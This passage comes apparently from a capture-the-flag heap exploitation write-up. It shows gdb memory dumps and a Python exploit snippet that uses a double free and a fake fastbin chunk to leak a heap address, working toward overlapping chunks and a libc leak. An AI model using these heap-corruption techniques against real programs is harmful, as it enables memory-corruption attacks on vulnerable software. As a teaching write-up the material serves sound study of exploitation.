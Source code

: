 ```sh
0x555555758170:	0x0000000032323232	0x0000000000000000
0x555555758180:	0x0000000000000000	0x0000000000000000
0x555555758190:	0x0000000000000000	0x0000000000000000
0x5555557581a0:	0x0000000000000000	0x0000000000000000
0x5555557581b0:	0x0000000000000000	0x0000000000000000
0x5555557581c0:	0x0000000000000000	0x0000000000000000


```

### Pursuing the Libc

**0x21** size is just a fastbin chunk , how do we expect to get libc leak from a fastbin chunk??

If we can somehow corrupt the size of this 0x21 chunk with a small bin size , we can get our beloved libc. But how do we do that?

The answer to that could be creating **overlapping chunks**.

We use our friend **double free** and overwrite fd of a free chunk with our fake chunk's address which can yield our fake chunk overlapping with another chunk whose size we can overwrite.
{: .notice}

If that didn't hit a nerve , it will soon do :).

Let's craft a fake chunk inside of one of our allocated chunks only , some modifications to be made too :)

```py

if __name__=="__main__":
    add(0x70,'0000')
    add(0x70,'1111')
    add(0x70,'2'*0x60 + p64(0) + p64(0x21))
    add(0x70,'3333')
    free(1)
    free(2)
    free(0)
    add(0x10,'\xf0') #Chunk 4
    free(4)
    reu('will free: ')
    heap_base = u64(re(6) + '\x00'*2) - 0xf0
    log.info("heap @ " + hex(heap_base))

```

Now our fake chunk should reside in the memory.

```sh
0x555555758000:	0x0000000000000000	0x0000000000000021 -> Chunk 0
0x555555758010:	0x00005555557580a0	0x0000000000000010
0x555555758020:	0x0000000000000000	0x0000000000000081
0x555555758030:	0x0000000030303030	0x0000000000000000
0x555555758040:	0x0000000000000000	0x0000000000000000
0x555555758050:	0x0000000000000000	0x0000000000000000
0x555555758060:	0x0000000000000000	0x0000000000000000
0x555555758070:	0x0000000000000000	0x0000000000000000
0x555555758080:	0x0000000000000000	0x0000000000000000
0x555555758090:	0x0000000000000000	0x0000000000000000
gdb-peda$ 
0x5555557580a0:	0x0000000000000000	0x0000000000000021 -> Chunk 1
0x5555557580b0:	0x0000555555758000	0x0000000000000070
0x5555557580c0:	0x0000000000000000	0x0000000000000081
0x5555557580d0:	0x0000000031313131	0x0000000000000000
0x5555557580e0:	0x0000000000000000	0x0000000000000000
0x5555557580f0:	0x0000000000000000	0x0000000000000000
0x555555758100:	0x0000000000000000	0x0000000000000000
```